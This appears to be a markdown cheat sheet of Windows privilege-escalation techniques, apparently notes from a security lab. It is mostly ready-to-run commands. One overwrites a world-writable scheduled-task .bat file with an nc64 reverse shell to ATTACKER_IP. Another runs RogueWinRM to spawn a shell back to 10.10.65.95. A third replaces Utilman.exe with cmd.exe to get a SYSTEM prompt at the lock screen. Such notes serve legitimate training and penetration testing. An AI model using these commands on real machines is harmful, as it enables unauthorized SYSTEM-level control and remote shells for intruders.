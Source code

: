 # sheduled task (like crond on linux)
```
schtasks /query /tn vulntask /fo list /v
```
check permissions
```
icacls c:\tasks\file
```
`c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)`
As can be seen in the result, the BUILTIN\Users group has full access (F) over the task's binary. This means we can modify the .bat file and insert any payload we like. For your convenience, nc64.exe can be found on C:\tools. Let's change the bat file to spawn a reverse shell:
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\<taskfile>
```
## run a task
```
schtasks /run /tn <taskname>
```
# privilege
## SeImpersonate / SeAssignPrimaryToken
```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 10.10.65.95 4444"
```
## SeTakeOwnership
```
takeown /f C:\Windows\System32\Utilman.exe
```
```
icacls C:\Windows\System32\Utilman.exe /grant <actualUser>:F
```
```
 copy cmd.exe utilman.exe
```
 lock our screen from the start button and  proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges.
# Unpatched software
list installed programms
```
wmic product get name,version,vendor
```
